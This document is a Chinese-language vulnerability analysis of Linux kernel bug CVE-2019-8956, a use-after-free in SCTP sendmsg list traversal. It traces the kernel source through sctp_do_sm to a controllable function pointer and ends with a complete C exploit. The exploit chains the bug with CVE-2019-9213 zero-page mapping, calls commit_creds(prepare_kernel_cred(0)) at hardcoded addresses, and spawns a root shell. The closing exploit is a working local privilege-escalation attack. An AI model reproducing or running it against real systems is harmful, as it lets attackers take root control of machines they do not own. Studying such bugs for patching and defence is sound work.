






## CVE-2019-8956 

#### 漏洞pattern
链表遍历操作时，没有对列表项被删除的情况作出处理，导致列表项被删除后依旧使用它获取成员，这样造成了漏洞的产生






补丁增加了n来提前获取链表的next，避免了上述漏洞的产生。


#### 漏洞分析 

首先根据作者提供的poc，来进行分析：



首先在sctp_sendmsg函数下一个断点，找到链表遍历的代码，在next处下一个内存断点。



通过内存断点我们找到了crash产生的原因，在list_del处将next的值设置为了LIST_POISON1（0x100）。之后遍历时由于0xbc（0x100-0x44）为非法地址，产生crash。

上面分析我们知道了asoc->next会成为一个固定地址：0xbc，我们只要可以搭配和0地址解引用来实现控制asoc。

接下来分析sctp_sendmsg函数：  
```
static int sctp_sendmsg(struct sock *sk, struct msghdr *msg, size_t msg_len)
{
	struct sctp_endpoint *ep = sctp_sk(sk)->ep;
	struct sctp_transport *transport = NULL;
	struct sctp_sndrcvinfo _sinfo, *sinfo;
	struct sctp_association *asoc;
	struct sctp_cmsgs cmsgs;
	union sctp_addr *daddr;
	bool new = false;
	__u16 sflags;
	int err;

	/* Parse and get snd_info */
	err = sctp_sendmsg_parse(sk, &cmsgs, &_sinfo, msg, msg_len);
	if (err)
		goto out;

	sinfo  = &_sinfo;
	sflags = sinfo->sinfo_flags;

	/* Get daddr from msg */
	daddr = sctp_sendmsg_get_daddr(sk, msg, &cmsgs);
	if (IS_ERR(daddr)) {
		err = PTR_ERR(daddr);
		goto out;
	}

	lock_sock(sk);

	/* SCTP_SENDALL process */
	if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP)) {
		list_for_each_entry(asoc, &ep->asocs, asocs) {
			err = sctp_sendmsg_check_sflags(asoc, sflags, msg,
							msg_len);
			if (err == 0)
				continue;
			if (err < 0)
				goto out_unlock;

			sctp_sendmsg_update_sinfo(asoc, sinfo, &cmsgs);

			err = sctp_sendmsg_to_asoc(asoc, msg, msg_len,
						   NULL, sinfo);
			if (err < 0)
				goto out_unlock;

			iov_iter_revert(&msg->msg_iter, err);
		}

		goto out_unlock;
	}
	
  ................
            
out_unlock:
	release_sock(sk);
out:
	return sctp_error(sk, msg->msg_flags, err);
}
```
可以看到当标志为SCTP_SENDALL时，我们会进入sctp_style(sk, UDP) && !sctp_state(asoc, ESTABLISHED)的判断，如果我们让sk->type为UDP时，就会调用list_for_each_entry来依次遍历ep->asocs链表。

接下来会调用sctp_sendmsg_check_sflags：
```
static int sctp_sendmsg_check_sflags(struct sctp_association *asoc,
				     __u16 sflags, struct msghdr *msg,
				     size_t msg_len)
{
	struct sock *sk = asoc->base.sk;
	struct net *net = sock_net(sk);

	if (sctp_state(asoc, CLOSED) && sctp_style(sk, TCP))
		return -EPIPE;

	if ((sflags & SCTP_SENDALL) && sctp_style(sk, UDP) &&
	    !sctp_state(asoc, ESTABLISHED))
		return 0;

	if (sflags & SCTP_EOF) {
		pr_debug("%s: shutting down association:%p\n", __func__, asoc);
		sctp_primitive_SHUTDOWN(net, asoc, NULL);

		return 0;
	}

	if (sflags & SCTP_ABORT) {
		struct sctp_chunk *chunk;

		chunk = sctp_make_abort_user(asoc, msg, msg_len);
		if (!chunk)
			return -ENOMEM;

		pr_debug("%s: aborting association:%p\n", __func__, asoc);
		sctp_primitive_ABORT(net, asoc, chunk);

		return 0;
	}

	return 1;
}
```
这里注意：struct sock *sk = asoc->base.sk，因为asoc是可控的，所以struct sock *sk就可以任由我们摆布。

接下来设置SCTP_ABORT标志，调用sctp_make_abort_user和sctp_primitive_ABORT。

```
struct sctp_chunk *sctp_make_abort_user(const struct sctp_association *asoc,
					struct msghdr *msg,
					size_t paylen)
{
	struct sctp_chunk *retval;
	void *payload = NULL;
	int err;

	retval = sctp_make_abort(asoc, NULL,
				 sizeof(struct sctp_errhdr) + paylen);
	if (!retval)
		goto err_chunk;

	if (paylen) {
		/* Put the msg_iov together into payload.  */
		payload = kmalloc(paylen, GFP_KERNEL);
		if (!payload)
			goto err_payload;

		err = memcpy_from_msg(payload, msg, paylen);
		if (err < 0)
			goto err_copy;
	}

	sctp_init_cause(retval, SCTP_ERROR_USER_ABORT, paylen);
	sctp_addto_chunk(retval, paylen, payload);

	if (paylen)
		kfree(payload);

	return retval;

err_copy:
	kfree(payload);
err_payload:
	sctp_chunk_free(retval);
	retval = NULL;
err_chunk:
	return retval;
}
```
在这里我们把paylen设置为0，这样就不会进入循环，也就避开了
memcpy_from_msg。（paylen就是通过sendmsg发送的数据的长度）。     

接下来是sctp_primitive_ABORT，调试一下可以找到他实际位于net/sctp/primitive.c： 


```
int sctp_primitive_ ## name(struct net *net, struct sctp_association *asoc, \
			    void *arg) { \
	int error = 0; \
	enum sctp_event event_type; union sctp_subtype subtype; \
	enum sctp_state state; \
	struct sctp_endpoint *ep; \
	\
	event_type = SCTP_EVENT_T_PRIMITIVE; \
	subtype = SCTP_ST_PRIMITIVE(SCTP_PRIMITIVE_ ## name); \
	state = asoc ? asoc->state : SCTP_STATE_CLOSED; \
	ep = asoc ? asoc->ep : NULL; \
	\
	error = sctp_do_sm(net, event_type, subtype, state, ep, asoc,	\
			   arg, GFP_KERNEL); \
	return error; \
}
```
可以看到他调用了sctp_do_sm这个状态随机处理函数：
```
int sctp_do_sm(struct net *net, enum sctp_event event_type,
	       union sctp_subtype subtype, enum sctp_state state,
	       struct sctp_endpoint *ep, struct sctp_association *asoc,
	       void *event_arg, gfp_t gfp)
{

    ......

	state_fn = sctp_sm_lookup_event(net, event_type, state, subtype);

	sctp_init_cmd_seq(&commands);

	debug_pre_sfn();
	status = state_fn->fn(net, ep, asoc, subtype, event_arg, &commands);
	debug_post_sfn();

	error = sctp_side_effects(event_type, subtype, state,
				  ep, &asoc, event_arg, status,
				  &commands, gfp);
	debug_post_sfx();

	return error;
}
```
而sctp_do_sm的参数：net、state、ep、asoc都是可以被我们控制的。
这里有个很明显的指针调用：
```
	status = state_fn->fn(net, ep, asoc, subtype, event_arg, &commands);
```
如果我们可以控制state_fn，就可以实现任意地址调用。    
state_fn由sctp_sm_lookup_event函数返回，我们继续跟入：  
```
const struct sctp_sm_table_entry *sctp_sm_lookup_event(
					struct net *net,
					enum sctp_event event_type,
					enum sctp_state state,
					union sctp_subtype event_subtype)
{
	switch (event_type) {
	case SCTP_EVENT_T_CHUNK:
		return sctp_chunk_event_lookup(net, event_subtype.chunk, state);
	case SCTP_EVENT_T_TIMEOUT:
		return DO_LOOKUP(SCTP_EVENT_TIMEOUT_MAX, timeout,
				 timeout_event_table);
	case SCTP_EVENT_T_OTHER:
		return DO_LOOKUP(SCTP_EVENT_OTHER_MAX, other,
				 other_event_table);
	case SCTP_EVENT_T_PRIMITIVE:
		return DO_LOOKUP(SCTP_EVENT_PRIMITIVE_MAX, primitive,
				 primitive_event_table);
	default:
		/* Yikes!  We got an illegal event type.  */
		return &bug;
	}
}
```
在sctp_primitive_ABORT里面就已经设置event为SCTP_EVENT_T_PRIMITIVE，所以接下来会调用DO_LOOKUP函数。   
```
#define DO_LOOKUP(_max, _type, _table)					\
({									\
	const struct sctp_sm_table_entry *rtn;				\
									\
	if ((event_subtype._type > (_max))) {				\
		pr_warn("table %p possible attack: event %d exceeds max %d\n", \
			_table, event_subtype._type, _max);		\
		rtn = &bug;						\
	} else								\
		rtn = &_table[event_subtype._type][(int)state];		\
									\
	rtn;								\
})
```
调试一下：  
    
可以发现ecx是state，所以我们可以控制state_fn。

小结一下调用链：
    

搭配cve-2019-9213可以实现提权：

```
#define _GNU_SOURE

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <fcntl.h>

#include <string.h>

#include <arpa/inet.h>

#include <pthread.h>

#include <error.h>

#include <sys/types.h>

#include <sys/socket.h>

#include <netinet/sctp.h>

#include <netinet/in.h>

#include <time.h> 

#include <malloc.h>

#include <sys/mman.h>

#include <err.h>

#include <signal.h>


#define SERVER_PORT 6666

#define SCTP_GET_ASSOC_ID_LIST	29

#define SCTP_RESET_ASSOC	120

#define SCTP_ENABLE_RESET_ASSOC_REQ	0x02

#define SCTP_ENABLE_STREAM_RESET	118


struct sock

{

        char pad1[0x24];

        void *net;

        char pad[0x278];

        int type;

};


struct sctp_association

{

        char pad1[0x18];

        struct sock *sk;

        char pad2[0x34];

        char *ep;

        char pad3[0x158];

        int state;

};


#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1074ee0;

void (*commit_creds)(void*) KERNCALL = (void*) 0xc1074b80;


void templine()

{

	commit_creds(prepare_kernel_cred(0));

	asm(	"pushl   $0x7b;"

		"pushl   $0x4000;"

		"pushl   $0x202;"

		"pushl   $0x73;"

		"pushl   $shell;"

		"iret;");

}


void shell()

{

        printf("root\n");

        system("/bin/sh");

        exit(0);

}


void mmap_zero()

{

	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);

        if (addr != 0x10000)

                err(2,"mmap failed");

        int fd = open("/proc/self/mem",O_RDWR);

        if (fd == -1)

                err(2,"open mem failed");

        char cmd[0x100] = {0};

        sprintf(cmd, "su >&%d < /dev/null", fd);

        while (addr)

        {

                addr -= 0x1000;

                if (lseek(fd, addr, SEEK_SET) == -1)

                        err(2, "lseek failed");

                system(cmd);

        }

        printf("contents:%s\n",(char *)1);

        

	struct sctp_association * sctp_ptr = (struct sctp_association *)0xbc;

        sctp_ptr->sk = (struct sock *)0x1000;

        sctp_ptr->sk->type = 0x2;

        sctp_ptr->state = 0x7cb094c; // offset, &_table[event_subtype._type][(int)state] = 0x3000

        sctp_ptr->ep = (char *)0x2000;

	*(sctp_ptr->ep + 0x8e) = 1;

	unsigned long* ptr4 = (unsigned long*)0x3000;

	ptr4[0] = (unsigned long)&templine;

}


void* client_func(void* arg)

{

	int socket_fd;

	struct sockaddr_in serverAddr;

	struct sctp_event_subscribe event_;

	int s;


	char *buf = "test";


	if ((socket_fd = socket(AF_INET, SOCK_SEQPACKET, IPPROTO_SCTP))==-1){

		perror("client socket");

		pthread_exit(0);

	}

	bzero(&serverAddr, sizeof(serverAddr));

	serverAddr.sin_family = AF_INET;

	serverAddr.sin_addr.s_addr = htonl(INADDR_ANY);

	serverAddr.sin_port = htons(SERVER_PORT);

	inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);


	printf("send data: %s\n",buf);

	if(sctp_sendmsg(socket_fd,buf,sizeof(buf),(struct sockaddr*)&serverAddr,sizeof(serverAddr),0,0,0,0,0)==-1){

		perror("client sctp_sendmsg");

		goto client_out_;

	}


client_out_:

  	//close(socket_fd);

	pthread_exit(0);

}


void* send_recv(int server_sockfd)

{

	int msg_flags;

	socklen_t len = sizeof(struct sockaddr_in);

	size_t rd_sz;

	char readbuf[20]="0";

	struct sockaddr_in clientAddr;

	

	rd_sz = sctp_recvmsg(server_sockfd,readbuf,sizeof(readbuf),(struct sockaddr*)&clientAddr, &len, 0, &msg_flags);

	if (rd_sz > 0)

		printf("recv data: %s\n",readbuf);

	rd_sz = 0;

	if(sctp_sendmsg(server_sockfd,readbuf,rd_sz,(struct sockaddr*)&clientAddr,len,0,0x44,0,0,0)<0){

		perror("SENDALL sendmsg");

	}

	

	pthread_exit(0);	

}


int main(int argc, char** argv)

{

	int server_sockfd;

	pthread_t thread;

	struct sockaddr_in serverAddr;


	if ((server_sockfd = socket(AF_INET,SOCK_SEQPACKET,IPPROTO_SCTP))==-1){

		perror("socket");

		return 0;

	}

	bzero(&serverAddr, sizeof(serverAddr));

	serverAddr.sin_family = AF_INET;

	serverAddr.sin_addr.s_addr = htonl(INADDR_ANY);

	serverAddr.sin_port = htons(SERVER_PORT);

	inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);


	if(bind(server_sockfd, (struct sockaddr*)&serverAddr,sizeof(serverAddr)) == -1){

		perror("bind");

		goto out_;

	}


	listen(server_sockfd,5);

	

	if(pthread_create(&thread,NULL,client_func,NULL)){

		perror("pthread_create");

		goto out_;

	}

	mmap_zero();

	send_recv(server_sockfd);

out_:

	close(server_sockfd);

	return 0;

}
```